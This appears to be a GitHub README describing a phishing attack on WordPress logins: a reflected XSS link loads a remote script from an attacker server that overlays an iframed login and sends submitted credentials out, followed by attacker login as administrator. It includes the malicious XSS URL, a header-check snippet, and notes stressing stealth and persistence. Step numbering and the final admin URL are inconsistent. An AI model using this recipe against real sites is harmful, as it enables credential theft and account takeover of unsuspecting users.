 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.10

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.10/wp-login.php";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginWP.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.13` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

8. [post exploit] attacker logs into target WordPress site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

![Image](screenshots/WordPress_-_iframe_login_-_1-1.png)
